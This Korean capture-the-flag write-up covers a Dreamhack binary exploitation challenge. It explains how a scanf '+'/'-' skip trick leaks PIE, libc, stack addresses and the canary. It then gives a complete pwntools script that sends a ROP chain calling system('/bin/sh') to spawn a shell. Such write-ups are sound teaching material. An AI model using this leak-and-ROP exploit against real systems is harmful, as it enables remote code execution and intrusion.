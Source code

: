 `scanf`에 `+`나 `-`를 입력하면 아무것도 입력하지 않을 수 있다는 트릭이 있다. 값을 가져오는 곳에 코드 영역 주소가 있기 때문에 `+`를 입력하고 스택의 값을 더하면 `코드 영역 값 + alpha`의 값을 알 수 있고, 그냥 -1을 입력하면 `alpha`의 값을 알 수 있기 때문에 이 둘을 빼주고 `offset`을 빼주면 `pie_base`를 구할 수 있다.

```
0x7fffffffc850: 0x0000000000000000      0x0000000000000000
0x7fffffffc860: 0x0000000000000000      0x0000000000000000
0x7fffffffc870: 0x0000000000000000      0x0000000000000000
0x7fffffffc880: 0x0000000000000000      0x0000000000000000
0x7fffffffc890: 0x00007fffffffc9d8      0xd73910ae66126e00
0x7fffffffc8a0: 0x00007fffffffc8b0      0x000055555555558e
0x7fffffffc8b0: 0x00007fffffffc950      0x00007ffff7dc91ca
0x7fffffffc8c0: 0x00007fffffffc900      0x00007fffffffc9d8
```

`0x7fffffffc850`에 `unsigned long long int k[16];`이 선언되어 있다고 가정하자. `k[0] ~ k[7]`은 0으로 초기화되고, `k[8], k[10], k[12], k[14], k[15]`은 스택 관련 주소, `k[9]`는 카나리, `k[11]`은 코드 영역 주소, `k[13]`은 `libc` 관련 주소이다.
`base`를 `(1 << 56)`으로 설정하고 결과 값의 하위 6바이트만 보면 `k[15]`가 도출될 것이므로 스택 관련 주소의 모든 값을 알 수 있다. 이제 우리는 `k[9], k[13]`을 모르고 나머지 값은 다 안다.
다음으로 `k[13]`을 알아낼 것이다. 그렇게 생각한 이유는 `libc` 관련 주소는 상위 2바이트가 `\x00\x00`이기 때문이다. `base`를 `(1 << 63) + (1 << 8)`로 설정하고 최상위 바이트를 무시한다고 가정하면 `val`은 `((k[0] << 120) + ... + (k[8] << 56) + (k[9] << 48) + ... + (k[14] << 8) + k[15]) & ((1 << 64) - 1)`가 될 것이며, 이는 2바이트씩 밀려서 더해지는 형태가 될 것이다.
![[/image/KakaoTalk_20250228_173012514.jpg]]

위 그림처럼 생각하면 `k[13]`의 하위 5바이트를 알 수 있다. `libc`는 `\x7e` 또는 `\x7f`로 시작하므로 합리적인 고정(`\x7f`)를 통해 `k[13]`을 알아낼 수 있다.
`base`를 `(1 << 64) - 1`로 하면 `-1`을 곱하는 것과 같은 효과를 준다. `k[9]`만 모르고 나머지 값은 다 알기 때문에 `k[9]`도 알 수 있다. 이로써 익스에 필요한 모든 값을 알아냈다. `ROP`로 해결한다.

# Exploit

```python
from pwn import *
from tqdm import *

context.terminal = ['tmux', 'splitw', '-h']

p = remote('host1.dreamhack.games', 20130)
#p = process('./prob2')
l = ELF('./libc.so.6')

breaknum = (1 << 64) + 1

def calc(base : int, inputs : list):
    p.sendlineafter(b'Base: ', str(base).encode())
    for i in inputs:
        if type(i) == int : 
            if i > (1 << 64) : break
            else : i = str(i).encode()
        p.sendline(i)
    p.recvuntil(b'Value: ')
    return p.recvline()[:-1]

sum1 = int(calc((1 << 56) + 1, [b'+', -1, breaknum]))
sum2 = int(calc((1 << 56) + 1, [-1, breaknum]))
sum1 += 1 << 64
pie_base = sum1 - sum2 - 0x4020
pie_base &= 0xffffffffffff
print(hex(sum1))
print(hex(sum2))
print(hex(pie_base))
print()

st1 = int(calc((1 << 56), [-1, breaknum]))
st1 = (st1 & ((1 << 48) - 1))
st2 = st1 - (0x7fffffffc778 - 0x7fffffffc6a0)
st3 = st1 - (0x7fffffffc778 - 0x7fffffffc6f0)
st4 = st1 - (0x7fffffffc778 - 0x7fffffffc650)
st5 = st1
print(hex(st1))
print(hex(st2))
print(hex(st3))
print(hex(st4))
print(hex(st5))
print()

b = int(calc((1 << 63) + (1 << 8), [-1, breaknum]))
b -= st1
b >>= 8
b -= st2
b >>= 8
l.address = b & 0xff
b >>= 8
b -= st3 & 0xffffffff
l.address += (b & 0xff) << 8
b >>= 8
b -= (pie_base + 0x158e) & 0xffffff
l.address += (b & 0xff) << 16
b >>= 8
b -= st4 & 0xffff
l.address += (b & 0xffff) << 24
l.address += 0x7f0000000000
l.address = l.address - (0x7ffff7dd51ca - 0x7ffff7dab000)
print(hex(l.address))

c = int(calc((1 << 64) - 1, [-1, breaknum]))
nocanaryc = st1 + pie_base + 0x158e + l.address + (0x7ffff7dd51ca - 0x7ffff7dab000)
nocanaryc += (1 << 64) * 4
nocanaryc -= st2 + st3 + st4 + st5
nocanaryc &= (1 << 64) - 1
c += 1 << 64
canary = c - nocanaryc
canary &= (1 << 64) - 1
print(hex(canary))

system = l.sym['system']
binsh = list(l.search(b'/bin/sh'))[0]
pop_rdi = l.address + 0x000000000010f75b
ret = l.address + 0x000000000002e81b

#gdb.attach(p, "b* calc+217\nc")
int(calc((1 << 64) - 1, [0, 0, 0, 0, 0, 0, 0, 0, 0, canary, 0, ret, pop_rdi, binsh, system, 0]))
p.interactive()
```
